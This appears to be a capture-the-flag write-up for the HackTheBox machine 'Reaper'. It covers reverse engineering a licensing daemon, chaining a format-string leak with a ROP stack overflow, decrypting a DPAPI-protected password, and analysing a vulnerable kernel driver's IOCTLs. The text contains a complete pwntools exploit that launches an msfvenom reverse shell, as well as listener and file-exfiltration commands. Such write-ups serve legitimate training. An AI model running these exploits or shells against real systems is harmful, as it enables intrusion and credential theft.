


Introduction
Reaper is an Insane-difficulty Windows target on HackTheBox that tests the full spectrum of modern offensive security engineering-bridging userland reverse engineering, low-level binary exploitation under strict modern exploit mitigations, Windows DPAPI secrets extraction, and Ring-0 Windows kernel driver vulnerability research.
Rather than relying on common misconfigurations or off-the-shelf CVEs, Reaper requires a structured zero-day vulnerability research approach. The initial foothold demands reverse engineering a proprietary licensing daemon (dev_keysvc.exe) running over TCP port 4141, exfiltrated via anonymous FTP. Static decompilation in Ghidra reveals a custom key checksum verification algorithm, an unconstrained format string vulnerability in the logging subsystem, and a stack-based buffer overflow in the base64 comment handler. Exploitation requires chaining a format string info-leak to defeat Address Space Layout Randomization (ASLR), followed by a 64-bit Return-Oriented Programming (ROP) chain that invokes VirtualAlloc to allocate executable memory, bypassing Data Execution Prevention (DEP/NX) to establish a reverse shell as reaper\keysvc.
Post-exploitation transitions into local credential triage, where an encrypted DPAPI blob (automation.txt) is decrypted in-session using .NET reflection to extract plaintext credentials (keysvc:CatWinterMist10), granting interactive RDP access. Finally, local privilege escalation targets the core operating system: auditing a custom signed kernel driver (reaper.sys), reverse-engineering its IOCTL dispatch routines to construct an arbitrary 8-byte kernel read/write primitive, and traversing the active _EPROCESS circular linked list to duplicate the security token of SYSTEM (PID 4), achieving complete system takeover as NT AUTHORITY\SYSTEM.
Attack Narrative & Architecture

The compromise of Reaper follows a disciplined 5-stage offensive lifecycle:
+---------------------------------------------------------------------------------------------+
| REAPER ATTACK CHAIN |
+---------------------------------------------------------------------------------------------+
| |
| [Phase 1: Recon & Exfiltration] |
| --> Anonymous FTP (Port 21) -> Exfiltrate dev_keys.txt & dev_keysvc.exe binary |
| |
| [Phase 2: Reverse Engineering & Dual Vulnerability Triage] |
| --> Ghidra Static Decompilation -> Map custom checksum validation algorithm |
| --> Format String Bug in _snprintf() -> Leaks stack pointers to defeat ASLR |
| --> Unbounded Base64 Input -> Stack Buffer Overflow (Offset: 88 bytes to RIP) |
| |
| [Phase 3: Mitigation Bypasses & Userland Foothold] |
| --> Format String Leak (%pX) -> Calculates Dynamic Image Base (pbase) |
| --> 64-bit ROP Chain -> VirtualAlloc(RSP, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE) |
| --> Injects msfvenom Reverse Shell -> Shell as reaper\keysvc (Port 9001) |
| |
| [Phase 4: Local Post-Exploitation & DPAPI Triage] |
| --> Discovers C:\Users\keysvc\automation.txt DPAPI encrypted blob |
| --> In-session DPAPI decryption via PowerShell .NET Reflection API |
| --> Plaintext Credentials Recovered (keysvc:CatWinterMist10) -> RDP (Port 3389) |
| |
| [Phase 5: Ring-0 Kernel Driver Weaponization] |
| --> Enumerates loaded drivers -> Identifies C:\driver\reaper.sys |
| --> Ghidra Driver Analysis: IOCTL 0x80002003 (Alloc) & 0x8000200b (Arbitrary Copy) |
| --> Weapons-Grade Arbitrary 8-byte Kernel Read/Write Primitive (priv.c) |
| --> Walks _EPROCESS ActiveProcessLinks -> Steals SYSTEM Token (PID 4) |
| --> Spawns NT AUTHORITY\SYSTEM Shell -> Full Root Compromise |
| |
+---------------------------------------------------------------------------------------------+
Key Technical Takeaways:
- Mitigation Synergy: Understanding why memory corruption vulnerabilities must be chained-using an information disclosure primitive (Format String) to defeat ASLR, followed by control-flow hijacking (ROP) to neutralize DEP/NX.
- IAT-Constrained ROP Construction: Navigating real-world binary constraints where preferred APIs like
VirtualProtectare absent from the Import Address Table (IAT), requiring creative repurposing ofVirtualAllocto allocate an executable stage. - DPAPI Architecture & Scope: Exploiting the fundamental design of Windows DPAPI: encrypted data blobs can be decrypted without explicit passwords by any process executing in the security context of the user whose Master Key sealed them.
- Kernel Internals & Safe Token Stealing: Navigating undocumented Windows kernel structures (
_EPROCESS,ActiveProcessLinks,Token) and weaponizing I/O Control (IOCTL) dispatch routines to achieve Ring-0 code execution without triggering kernel BugChecks (Blue Screen of Death).
Enumeration
Port Scanning & Network Topology Mapping
We initiate network reconnaissance against the target IP (10.129.234.200) using nmap. Given that Windows machines frequently drop or throttle ICMP echo requests, we supply the -Pn flag to treat the host as online and enforce a minimum packet transmission rate of 5,000 packets per second (--min-rate 5000) across the entire 65,535 TCP port spectrum:
nmap -sCV -Pn -p- 10.129.234.200 --min-rate 5000 -oA Reaper.nmap
The scan reveals a concise attack surface consisting of standard management protocols alongside an unknown proprietary network daemon listening on high port 4141/TCP:
| Port | Service | Notes |
|---|---|---|
| 21 | FTP (Microsoft ftpd) | Anonymous login allowed |
| 80 | HTTP (IIS 10.0) | Default IIS page, nothing interesting |
| 3389 | RDP | CN=reaper |
| 4141 | Custom service | Menu-driven key activation service |
- Port 21 (FTP): Running Microsoft FTP Service. Crucially, the nmap script output indicates anonymous authentication (
ftp-anon) is enabled. - Port 80 (HTTP): Serves the default Microsoft Internet Information Services (IIS) 10.0 splash screen. A rapid directory bruteforce using
gobusterandferoxbusteryields no hidden directories, web applications, or custom endpoints. - Port 3389 (RDP): Standard Windows Remote Desktop protocol with TLS encryption. The self-signed certificate common name discloses the machine name:
reaper. - Port 4141 (Unknown): An unidentified listening TCP port. Banner grabbing indicates an interactive console daemon.
FTP Reconnaissance & Binary Exfiltration
Anonymous FTP access is frequently a treasure trove on CTF targets, often exposing staging environments, configuration files, or build artifacts. We connect using the standard anonymous username and a blank password:
ftp 10.129.234.200
# Login: anonymous / (blank)
binary # CRITICAL: must set binary mode or exe transfer corrupts
mget *
[!WARNING] FTP Binary Transfer Mode: In FTP clients, the default transfer mode is often ASCII. When transferring Windows Portable Executable (PE) files, ASCII mode will interpret any
0x0A(Line Feed) byte and mangle it by prefixing a0x0D(Carriage Return) byte. This corrupts PE section headers, import tables, and machine code opcodes, making the binary crash immediately upon local execution. Always issue thebinarycommand prior to downloading executables!
The anonymous root directory exposes two files:
dev_keys.txt- An ASCII text file containing three development license keys and an operational note from the engineering team.dev_keysvc.exe- A 64-bit Windows PE executable file corresponding directly to the daemon running remotely on port 4141.
Analyzing dev_keys.txt
Examining the downloaded text file:
Development Keys:
100-FE9A1-500-A270-0102-U3RhbmRhcmQgTGljZW5zZQ==
101-FE9A1-550-A271-0109-UHJlbWl1bSBMaWNlbnNl
102-FE9A1-500-A272-0106-UHJlbWl1bSBMaWNlbnNl
The dev keys can not be activated yet, we are working on fixing a bug in the activation function.
Several observations emerge from this license sample:
- Key Structure: Every key follows a distinct hyphen-delimited format:
XXX-XXXXX-XXX-XXXX-XXXX-BASE64==. - Base64 Trailers: Decoding the trailing base64 strings:
U3RhbmRhcmQgTGljZW5zZQ==→Standard LicenseUHJlbWl1bSBMaWNlbnNl→Premium License
- Developer Note: The developers explicitly note: "The dev keys can not be activated yet, we are working on fixing a bug in the activation function." This hint points towards an intentional software defect inside the key activation routine.
Port 4141 Network Service Interaction
We probe port 4141 interactively via netcat to analyze the protocol behavior:
nc 10.129.234.200 4141
The daemon presents a clear-text command-line menu:
Choose an option:
1. Set key
2. Activate key
3. Exit
Testing the workflow manually:
- Submitting
1prompts the operator:Enter a key:. - Pasting the first dev key (
100-FE9A1-500-A270-0102-U3RhbmRhcmQgTGljZW5zZQ==) yields:[+] Valid key format. - Selecting
2("Activate key") results in:[-] Could not find key!. - Submitting a random string (e.g.,
AAAA-BBBB) results in:[-] Invalid key format!.
This indicates that dev_keysvc.exe performs two independent stages of verification:
- Stage 1 (Syntax & Integrity Validation): The input string is parsed by an algorithmic validation check (presumably involving length, delimiters, and a mathematical checksum). If this fails, the key is immediately rejected.
- Stage 2 (Database Allowlist Check): If the syntax and checksum are valid, the service attempts to locate the key inside a server-side storage file (
keys.txt). Because the dev keys are not in the production database, activation fails withCould not find key!.
To identify how memory is handled and where vulnerabilities reside, we must move to offline reverse engineering.
Reverse Engineering - dev_keysvc.exe
Initial Binary Reconnaissance & Mitigation Auditing
We begin our static analysis by inspecting printable strings and auditing the compiled binary protections on our Linux host:
strings dev_keysvc.exe | grep -iE "key|valid|activ|error|license|format"
The output reveals informative debug logging strings and references to file I/O:
[Debug] Key too short!
[Debug] Invalid character (%d)!
[Debug] Checksum Provided: %d
[Debug] Checksum Calculated: %d
[Debug] Invalid checksum!
keys.txt
Next, we inspect the PE header flags and exploit mitigations using winchecksec (or dumpbin /headers):
Dynamic Base : Present (ASLR enabled)
NX : Present (DEP enabled)
GS : Present (stack cookies)
CFG : NotPresent
Security Mitigation Breakdown:
- Dynamic Base (ASLR - Address Space Layout Randomization): The base address of
dev_keysvc.exeis randomized at every execution. Hardcoded absolute memory addresses cannot be used in our exploit; we must discover an information disclosure vulnerability to leak a runtime address and calculate the dynamic process base (pbase). - NX / DEP (Data Execution Prevention / W^X): The stack and heap memory regions are marked non-executable (
PAGE_READWRITE). Injecting shellcode directly onto the stack and jumping to it will immediately trigger an access violation (STATUS_DATATYPE_MISALIGNMENTorSTATUS_ACCESS_VIOLATION). We must construct a Return-Oriented Programming (ROP) chain. - GS (Buffer Security Check / Stack Canaries): Stack cookies are compiled into vulnerable functions to detect linear buffer overflows before returning from a function frame.
- CFG (Control Flow Guard): Disabled. Function pointers and indirect call sites (
call rax,jmp [rbx]) are not verified against an OS bitmap table, simplifying ROP execution.
Ghidra Decompilation - Key Validation Routine
We load dev_keysvc.exe into Ghidra and allow auto-analysis to finish. Searching for the string "[Debug] Invalid checksum!" leads us directly to the validation xref inside function FUN_140001760.
Key Structural Constraints
Analyzing the disassembly reveals that the input string is checked for structural syntax at specific 0-indexed character offsets:
Pos: 0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19+
X X X - X X X X X - X X X - X X X X - CHECKSUM-COMMENT
- Dashes (
-) are strictly required at index3,9,13, and18. - Characters in between the dashes must be ASCII printable characters.
- Index
19onwards contains a 4-digit numeric checksum followed by an optional hyphen and base64 comment string.
Decompiled Checksum Algorithm
The decompiled C code calculates a checksum across the first 18 characters:
// Sum all non-dash characters at positions 0-17
// subtract 0x30 from each byte value
// result mod 10000 = 4-digit checksum
local_28 = 0;
while (local_18 < strlen(key)) {
if (local_18 < 0x12 && key[local_18] != '-') {
local_28 += (int)key[local_18] - 0x30;
}
local_18++;
}
checksum = local_28 % 10000;
// compare checksum to 4-digit integer parsed from position 19
The algorithm is straightforward:
- Initialize an accumulator (
local_28) to0. - Iterate through index
0to17(local_18 < 0x12). - If the character is not a hyphen (
key[local_18] != '-'), take its ASCII value, subtract0x30(48in decimal, equivalent to ASCII'0'), and add the resulting integer to the accumulator. - Calculate the checksum by taking
accumulator % 10000. - Parse the 4 characters starting at position
19as a decimal integer usingatoi()and verify that it equals the calculated checksum.
Algorithmic Verification in Python
To weaponize this understanding, we write a Python function that replicates the checksum generator:
def calc_checksum(prefix):
# prefix = "XXX-XXXXX-XXX-XXXX"
total = sum(ord(c) - 0x30 for c in prefix if c != '-')
return total % 10000
prefix = "100-FE9A1-500-A270"
cs = calc_checksum(prefix)
print(f"Checksum: {cs}") # 102 - matches dev key!
print(f"Full key: {prefix}-{cs:04d}")
Running this script yields 102. Formatted with four digits (0102), it matches the first development key 100-FE9A1-500-A270-0102 exactly. We can now forge syntactically valid license keys with arbitrary prefixes and payloads!
Discovering Vulnerability 1: Format String Bug (CWE-134)
Tracing the execution flow when Option 2 ("Activate key") is invoked, the service calls an internal logging routine log_key. Decompiling this function reveals a textbook format string flaw:
_snprintf(key_string, 0xff2, (char *)key); // key IS the format string
In secure programming, _snprintf should always be called with a static format specifier string: _snprintf(buffer, size, "%s", user_input). Here, however, the developer passed (char *)key directly as the second argument (the format string).
Because the user controls the format string parameter, any % specifiers inside our key will be evaluated by the C runtime library:
%p: Leaks a pointer off the current stack frame.%s: Dereferences a pointer on the stack and prints arbitrary memory.%n: Writes the number of characters printed so far to a target memory address.
In Windows x64 binaries, the calling convention passes the first four integer/pointer arguments via registers (RCX, RDX, R8, R9), with subsequent arguments spilled onto the stack. Sending a format string like %p allows us to dump stack memory.
Testing with %pX (using X as a clean delimiter):
- The service prints
Checking key: 0x7ff7xxxxxxxxX. - The leaked address consistently points to a string literal in the
.rdatasegment ofdev_keysvc.exe("Checking key: "), located at static offset0x20660from the image base. - ASLR Defeated:
Process Base (pbase) = Leaked_Address - 0x20660.
Discovering Vulnerability 2: Stack-Based Buffer Overflow (CWE-121)
While the key prefix up to index 18 is strictly checked for format and checksum, the key parser handles the trailing comment after the checksum (everything following index 19) differently:
- The trailing string is decoded from Base64 into a fixed-size local stack buffer.
- Crucial Flaw: The base64 decoder does not enforce any maximum length check on the destination buffer!
To confirm the overflow and identify the crash condition, we send a cyclic pattern in the base64 comment segment:
python3 -c "
from pwn import *
prefix = b'100-FE9A1-500-A270-0102-'
payload = prefix + cyclic(500)
print('1')
print(payload.decode())
print('2')
" | nc 10.129.234.200 4141
The service crashes instantly upon processing Option 2.
Crash Analysis & Offset Determination
- Why must the payload be base64-encoded? Because raw binary exploitation payloads (ROP gadget addresses, pointers, and shellcode) inevitably contain null bytes (
0x00). If transmitted as raw ASCII, string functions likestrlen()andstrcpy()terminate on the first null byte, truncating the payload. Base64 encoding completely sidesteps null-byte filtering. - Using Metasploit's
pattern_offset.rbon the crash dump registers reveals:- Offset to Return Address (RIP): Exactly 88 bytes.
We now possess all required exploit primitives:
- Primitive 1 (Format String Leak) → Defeats ASLR, calculates
pbase. - Primitive 2 (Stack Buffer Overflow) → Overwrites RIP at offset 88 with full control of the execution flow.
Foothold - Shell as keysvc
Attack Architecture & Mitigation Strategy
With ASLR defeated and RIP control established, our primary obstacle is Data Execution Prevention (DEP/NX). We cannot execute shellcode on the stack directly.
Why VirtualAlloc instead of VirtualProtect?
In standard Windows userland exploitation, researchers typically use a ROP chain to call kernel32!VirtualProtect:
VirtualProtect(lpAddress, dwSize, PAGE_EXECUTE_READWRITE, &oldProtect);
However, when we audit the Import Address Table (IAT) of dev_keysvc.exe, VirtualProtect is completely absent. It was never linked by the compiler!
Looking closely at the IAT, we spot another memory management API: kernel32!VirtualAlloc, present at offset 0x20000 from the binary base:
LPVOID VirtualAlloc(
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
);
Under Windows memory management semantics:
- If
lpAddresspoints to an existing allocated stack region, andflAllocationTypeis set toMEM_COMMIT(0x1000),VirtualAllocwill re-commit the target memory page with the new protection flags specified inflProtect! - Setting
flProtect = PAGE_EXECUTE_READWRITE(0x40) flips the stack page containing our shellcode from non-executable (RW-) to executable (RWX).
Windows x64 Calling Convention & ROP Gadget Assembly
The Microsoft x64 Application Binary Interface (ABI) dictates that function parameters are passed via registers:
- 1st argument (
lpAddress) →RCX(must point to our stack memory, e.g., currentRSP). - 2nd argument (
dwSize) →RDX(0x1000, 4096 bytes / one memory page). - 3rd argument (
flAllocationType) →R8(0x1000,MEM_COMMIT). - 4th argument (
flProtect) →R9(0x40,PAGE_EXECUTE_READWRITE).
Because no single "clean" gadget exists for every register, we assemble creative gadget sequences from the binary:
VirtualAlloc(
lpAddress = RSP (current stack, via RSP→RCX gadget chain),
dwSize = 0x1000,
flType = 0x1000 (MEM_COMMIT),
flProtect = 0x40 (PAGE_EXECUTE_READWRITE)
)
→ push rsp; and al, 8; ret (lands into NOP sled)
→ \x90 * 8
→ shellcode
Detailed Gadget Breakdown:
- Setting
R8(0x1000):mov r8, 0; add rsp, 8; retclearsr8.pop rbx; retloads0x1000intorbx.mov r9, rbx; mov r8, 0; add rsp, 8; retandadd r8, r9; add rax, r8; rettransfer the value intor8.
- Setting
R9(0x40):- Uses a conditional move gadget:
cmove r9, rdx; mov rax, r9; ret. - Satisfies the condition flag using
pop rsi, loading0x6348ffff, and runningcmp esi, 0x6348ffff.
- Uses a conditional move gadget:
- Setting
RDX(0x1000):- Uses
pop r13; retto load0x1000. - Transfers to
RDXviamov rdx, r13; call rax(withraxpointing to a benignretgadget).
- Uses
- Setting
RCX(RSP):- Dynamically captures the current stack pointer:
pop rbx; ret (0)→xor rbx, rsp; ret→push rbx; pop rax; ret→mov rcx, rax; ret.
- Dynamically captures the current stack pointer:
- Calling
VirtualAlloc& Pivoting:- Dereferences the IAT pointer via
jmp qword ptr [rbx]withrbx = pbase + 0x20000. - Returns to a stack-pivot gadget:
push rsp; and al, 8; ret, which jumps directly into an 8-byte NOP sled preceding our reverse shell payload!
- Dereferences the IAT pointer via
Complete Python Weaponization Exploit
The complete exploit script chains all primitives into an automated, deterministic trigger:
# vulnlab reaper exploit - macz 2023/08 (adapted)
from pwn import *
import base64
import subprocess
target_ip = "10.129.234.200"
listener_ip = "YOUR_TUN0_IP"
listener_port = 9001
log.info("generating shellcode...")
subprocess.check_output(
f"msfvenom -p windows/x64/shell_reverse_tcp LHOST={listener_ip} LPORT={listener_port} -f python -v sc -o sc.py",
shell=True
)
from sc import *
p = remote(target_ip, 4141)
# --- Phase 1: FSB leak to defeat ASLR ---
# "Checking key: " is at offset 0x20660 from binary base
log.info("leaking program base...")
p.sendlineafter(b"Exit", b"1")
p.sendafter(b"Enter a key:", b"%pX-FE9A1-500-A270-0194-U3RhbmRhcmQgTGljZW5zZQ==")
# checksum for "%pX-FE9A1-500-A270" = 194
p.sendlineafter(b"Exit", b"2")
p.readuntil(b"Checking key: ")
leak = int(p.readuntil(b"X", drop=True).decode(), 16)
pbase = leak - 0x20660
log.info(f"leak: {hex(leak)}")
log.info(f"pbase: {hex(pbase)}")
# --- Phase 2: ROP gadgets (relative offsets from binary base) ---
pop_rcx = 0x00000000000031dc # pop rcx; clc; ret
pop_rax = 0x000000000000150a # pop rax; ret
pop_r13 = 0x00000000000047b3 # pop r13; ret
mov_rdx_r13 = 0x000000000000368f # mov rdx, r13; call rax
pop_rbx = 0x00000000000020d9 # pop rbx; ret
mov_r9_rbx = 0x0000000000001f90 # mov r9, rbx; mov r8, 0; add rsp, 8; ret
cmove_r9_rdx = 0x000000000001f37d # cmove r9, rdx; mov rax, r9; ret
mov_r8_0 = 0x0000000000001f93 # mov r8, 0; add rsp, 8; ret
add_r8_r9 = 0x0000000000003918 # add r8, r9; add rax, r8; ret
pop_rsi = 0x0000000000004116 # pop rsi; ret
cmp_esi = 0x0000000000012ddb # cmp esi, 0x6348ffff; ret
jmp_qw_rbx = 0x000000000001ec79 # jmp qword ptr [rbx]
pop_r12_rsi = 0x000000000000a99a # pop rsi; pop r12; ret
VirtualAlloc = pbase + 0x20000 # IAT entry
# Helper: load R8 with value
def load_r8(value):
r = p64(pbase + mov_r8_0)
r += p64(0xdeadbeefdeadbeef) # junk for add rsp, 8
r += p64(pbase + pop_rbx)
r += p64(value)
r += p64(pbase + mov_r9_rbx)
r += p64(0xdeadbeefdeadbeef)
r += p64(pbase + add_r8_r9)
return r
# Helper: load R9 with value
def load_r9(value):
r = p64(pbase + pop_rsi)
r += p64(0x6348ffff) # make cmove condition true
r += p64(pbase + cmp_esi)
r += p64(pbase + pop_r13)
r += p64(value)
r += p64(pbase + pop_rax)
r += p64(pbase + pop_rax)
r += p64(pbase + mov_rdx_r13)
r += p64(pbase + cmove_r9_rdx)
return r
# Helper: load RDX with value
def load_rdx(value):
r = p64(pbase + pop_r13)
r += p64(value)
r += p64(pbase + pop_rax)
r += p64(pbase + pop_rax) # fix call() side effect in mov_rdx_r13
r += p64(pbase + mov_rdx_r13)
return r
# Helper: RSP → RCX (lpAddress = current stack pointer)
def rsp_to_rcx():
r = p64(pbase + pop_rbx)
r += p64(0)
r += p64(pbase + 0x0000000000001fa0) # xor rbx, rsp; ret
r += p64(pbase + 0x0000000000001fc2) # push rbx; pop rax; ret
r += p64(pbase + 0x0000000000001f80) # mov rcx, rax; ret
return r
# Helper: jump through IAT entry
def jmp_IAT(address):
r = p64(pbase + pop_rbx)
r += p64(address)
r += p64(pbase + jmp_qw_rbx)
r += p64(pbase + pop_r12_rsi) # clean up stack after call
r += p64(0xdeadbeefdeadbeef)
r += p64(0xdeadbeefdeadbeef)
return r
# --- Phase 3: Build full ROP chain ---
log.info("building rop chain...")
rop = b""
rop += load_r8(0x1000) # flAllocationType = MEM_COMMIT
rop += load_r9(0x40) # flProtect = PAGE_EXECUTE_READWRITE
rop += load_rdx(0x1000) # dwSize = one page
rop += rsp_to_rcx() # lpAddress = current RSP
rop += jmp_IAT(VirtualAlloc)
rop += p64(pbase + 0x000000000001becd) # push rsp; and al, 8; ret → land in shellcode
rop += b"\x90" * 8 # NOP sled
rop += sc # msfvenom reverse shell
# --- Phase 4: Send payload ---
# 88 bytes padding (cyclic) + ROP chain, base64-encoded
log.info("sending payload...")
p.sendlineafter(b"Exit", b"1")
payload = b"101-FE9A1-550-A271-0109-" + base64.b64encode(cyclic(88) + rop)
p.sendafter(b"Enter a key:", payload)
log.info("triggering exploit...")
p.sendlineafter(b"Exit", b"2")
p.interactive()
Executing the Exploit & Catching the Shell
We launch a netcat listener on our attack machine and fire exploit.py:
# Terminal 1 - listener
rlwrap nc -lvnp 9001
# Terminal 2 - exploit
python3 exploit.py
The script connects, leaks the memory pointer, computes pbase, constructs the ROP chain, and transmits the base64-encoded buffer. Within 2 seconds, our listener catches a reverse shell:
C:\keysvc> whoami
reaper\keysvc
We navigate to the user profile and recover the User Flag:
C:\Users\keysvc\Desktop\user.txt
Lateral Movement - DPAPI Credential Decryption
Identifying the Encrypted Automation Blob
Operating within our initial shell, we survey the filesystem for credentials, configuration files, and saved artifacts:
type C:\Users\keysvc\automation.txt
# 01000000d08c9ddf0115d1118c7a00c04fc297eb...
Inspecting the hex characters reveals the signature of a Windows Data Protection API (DPAPI) blob:
- The byte stream begins with
01 00 00 00(Version 1). - Followed by the 16-byte DPAPI GUID:
d0 8c 9d df 15 01 11 d1 8c 7a 00 c0 4f c2 97 eb.
How DPAPI Works Internally
DPAPI uses symmetric cryptography (AES-256 or Triple-DES) to encrypt sensitive user secrets. The symmetric key is derived from the user's Master Key, which is stored securely in %APPDATA%\Microsoft\Protect\{SID}\ and sealed with a key derived from the user's login password.
Crucially, any code executing within the security context of the user whose Master Key encrypted the blob can decrypt it automatically without providing a password! The OS seamlessly unprotects the data via CryptUnprotectData().
In-Session Decryption via .NET Reflection
Using PowerShell reflection into the Windows System.Runtime.InteropServices namespace, we convert the encrypted string into a secure string, export its BSTR pointer, and marshal it back into plaintext:
$DPAPI_blob = Get-Content C:\Users\keysvc\automation.txt | ConvertTo-SecureString
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DPAPI_blob)
[System.Runtime.InteropServices.Marshal]::PtrToStringBSTR($decrypted)
# CatWinterMist10
The plaintext password is recovered: CatWinterMist10.
We have valid credentials for reaper\keysvc:
keysvc : CatWinterMist10
Establishing Graphical Access via RDP
With valid plaintext credentials in hand, we establish a high-performance Remote Desktop session using xfreerdp3 to facilitate file transfer and driver reverse engineering:
xfreerdp3 /u:keysvc /p:CatWinterMist10 /v:10.129.234.200 +clipboard /cert:ignore
The desktop renders cleanly, giving us full GUI access to test, compile, and execute local exploits.
Privilege Escalation - Kernel Exploitation (reaper.sys)
Auditing Installed Third-Party Drivers
To assess privilege escalation vectors to SYSTEM, we query all loaded kernel drivers on the machine using driverquery /v:
# Confirm driver is loaded and running
driverquery /v | findstr reaper
# reaper Kernel Auto Running \??\C:\driver\reaper.sys
A custom third-party driver named reaper is actively running in kernel space, located at C:\driver\reaper.sys.
Exfiltrating reaper.sys for Offline Analysis
To reverse-engineer the driver in Ghidra, we exfiltrate reaper.sys back to our attack machine. We spin up an Impacket SMB server on Kali and copy the driver over the network:
# Attacker machine
sudo impacket-smbserver -smb2support share .
# Target (RDP session)
copy-item C:\driver\reaper.sys \\ATTACKER_IP\share\
Static Reverse Engineering of reaper.sys
We import reaper.sys into Ghidra. Because this is a 64-bit Windows Kernel Driver (.sys), we locate its entry point at DriverEntry:
DriverEntrycreates the device object\Device\reaperand a symbolic link\DosDevices\reaper, allowing userland applications to obtain a handle viaCreateFile("\\\\.\\reaper", ...).DriverEntrysets theIRP_MJ_DEVICE_CONTROLmajor function pointer atDriverObject->MajorFunction[0x0e]toFUN_140001020.
Navigating to FUN_140001020 reveals a dispatch routine processing three distinct I/O Control (IOCTL) codes:
IOCTL 1: 0x80002003 (Pool Allocation)
// Requires magic value 0x6a55cc9e
// Allocates 0x20-byte pool, copies user struct into it:
// [0] = magic
// [1] = thread_id
// [2] = priority
// [4] = src_address (QWORD)
// [6] = dst_address (QWORD)
DAT_140003050 = ExAllocatePoolWithTag(0, 0x20, 0x70616552);
- Validates a 32-bit magic value
0x6a55cc9e. - Calls
ExAllocatePoolWithTag(NonPagedPool, 0x20, 'paeR')to allocate a 32-byte chunk in non-paged kernel pool memory. - Copies a user-supplied structure into the allocated kernel buffer, storing the chunk pointer in global variable
DAT_140003050.
IOCTL 2: 0x80002007 (Pool Free)
ExFreePoolWithTag(DAT_140003050, 0x70616552);
- Releases the allocated kernel pool memory via
ExFreePoolWithTag.
IOCTL 3: 0x8000200b (The Vulnerability - Arbitrary Kernel Copy)
// Arbitrary 8-byte kernel write - NO validation
**(undefined8 **)(DAT_140003050 + 6) = **(undefined8 **)(DAT_140003050 + 4);
// i.e.: *(dst_address) = *(src_address)
Root-Cause Vulnerability Analysis
The implementation of IOCTL 0x8000200b contains a catastrophic design vulnerability:
- It extracts
src_address(from offset+4of the pool structure) anddst_address(from offset+6). - It dereferences both pointers and copies an 8-byte Quadword (
QWORD) from*src_addressto*dst_address. - Zero Memory Validation: The driver performs no pointer validation whatsoever. It does not call
ProbeForRead()orProbeForWrite(), nor does it verify whether the pointers reside in User Mode (0x0000000000000000-0x00007FFFFFFFFFFF) or Kernel Mode (0xFFFF800000000000-0xFFFFFFFFFFFFFFFF).
This primitive gives an unprivileged userland process a full arbitrary kernel read/write capability:
- Arbitrary Kernel Read: Point
src_addressto any kernel address anddst_addressto a userland buffer in our process. The driver reads kernel memory and writes it to our userland buffer. - Arbitrary Kernel Write: Point
src_addressto a userland buffer containing our desired value anddst_addressto any target kernel memory address. The driver overwrites the kernel address with our data.
Privilege Escalation Strategy - Kernel Token Stealing
In modern Windows 10 (Build 19045), Supervisor Mode Execution Prevention (SMEP) prevents the CPU from executing instructions in user-mode pages while in Ring-0. Attempting to hijack control flow directly to execute shellcode in userland will trigger an immediate kernel BugCheck (KERNEL_SECURITY_CHECK_FAILURE or PAGE_FAULT_IN_NONPAGED_AREA).
